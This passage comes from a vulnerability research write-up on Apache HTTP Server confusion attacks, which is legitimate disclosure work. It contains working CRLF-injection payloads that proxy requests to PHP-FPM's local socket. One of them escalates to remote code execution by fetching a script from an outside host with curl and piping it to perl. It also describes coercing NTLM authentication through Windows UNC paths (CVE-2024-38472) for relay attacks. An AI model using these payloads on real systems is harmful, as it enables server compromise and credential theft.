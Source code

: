 ✔️ 3-2-3. Arbitrary Handler to Access Local Unix Domain Socket
However, mod_proxy offers a more “convenient” feature — it can access local Unix Domain Sockets! 😉

Here’s a demonstration accessing PHP-FPM’s local Unix Domain Socket to execute a PHP backdoor located in /tmp/:

http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/tmp/ooo.php %0d%0a
%0d%0a

Theoretically, this technique has even more potential, such as protocol smuggling (smuggling FastCGI in HTTP/HTTPS protocols 😏) or exploiting other vulnerable local sockets. These possibilities are left for interested readers to explore.

✔️ 3-2-4. Arbitrary Handler to RCE
Finally, let’s demonstrate how to transform this primitive into an RCE using a common CTF trick! Since the official PHP Docker image includes PEAR, a command-line PHP package management tool, using its Pearcmd.php as an entry point allows us to achieve further exploitation. You can check this article — Docker PHP LFI Summary, written by Phith0n for details!

Here we utilize a Command Injection within run-tests to complete the entire exploit chain, detailed as follows:

http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}orange.tw/x|perl) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a

It’s common to see CRLF Injection or Header Injection being reported as XSS in Security Advisories or Bug Bounties. While it is true that these can sometimes chain to impactful vulnerabilities like Account Takeover through SSO, please don’t forget that they can also lead to Server-Side RCE, as this demonstration proves its potential!



🔥 4. Other Vulnerabilities
While this essentially covers the Confusion Attacks, some minor vulnerabilities discovered during our research of Apache HTTP Server are worth mentioning separately.

⚔️ CVE-2024-38472 - Windows UNC-based SSRF
Firstly, the Windows implementation of the apr_filepath_merge() function allows the use of UNC paths, which allows attackers to coerce NTLM authentication to any host. Here we list two different triggering paths:

✔️ Triggered via HTTP Request Parser
Direct triggering through an HTTP request parser in Httpd requires additional configuration, which might seem impractical at first glance but often appears with Tomcat (mod_jk, mod_proxy_ajp) or pairing with PATH_INFO:

AllowEncodedSlashes On
Additionally, since Httpd rewrote its core HTTP request parser logic after 2.4.49, triggering the vulnerability in versions above requires an additional configuration:

AllowEncodedSlashes On
MergeSlashes Off
By using two %5C can force Httpd to coerce NTLM authentication to an attacker-server, and practically, this SSRF can be converted into RCE through NTLM Relay!
